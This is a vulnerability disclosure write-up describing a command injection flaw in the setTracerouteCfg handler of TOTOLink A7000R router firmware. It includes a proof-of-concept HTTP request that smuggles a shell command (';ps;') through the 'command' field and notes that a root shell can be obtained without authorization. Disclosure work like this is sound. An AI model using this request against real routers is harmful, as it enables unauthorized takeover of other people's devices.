 # TOTOLink A7000R V9.1.0u.6115_B20201022 Has an command injection vulnerability

## Overview

- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ： https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/171/ids/36.html

### Product Information

TOTOLink A7000R V9.1.0u.6115_B20201022 router, the latest version of simulation overview：

![image-20220719210324254](img/image-20220719210324254.png)

## Vulnerability details

TOTOLINK A7000R (V9.1.0u.6115_B20201022) was found to contain a command insertion vulnerability in setTracerouteCfg.This vulnerability allows an attacker to execute arbitrary commands through the "command" parameter.

![image-20220719211135564](img/image-20220719211135564.png)

Format `Var` into `V6` using sprintf function and pass in dosystem function.

![image-20220719205544791](img/image-20220719205544791.png)

The dosystem function is finally found to be implemented in this file by string matching.

![image-20220719205811209](img/image-20220719205811209.png)

Reverse analysis found that the function was called directly through the system function, which has a command injection vulnerability.

## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Boot the firmware by qemu-system or other ways (real machine)
2. Attack with the following POC attacks

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Length: 52
Origin: http://192.168.0.1
DNT: 1
Connection: close
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Pragma: no-cache
Cache-Control: no-cache

{"command":";ps;","num":"1","topicurl":"setTracerouteCfg"}
```

![image-20220719212510596](img/image-20220719212510596.png)

 The above figure shows the POC attack effect 

![image-20220720065911385](img/image-20220720065911385.png)

Finally, you can write exp to get a stable root shell without authorization.
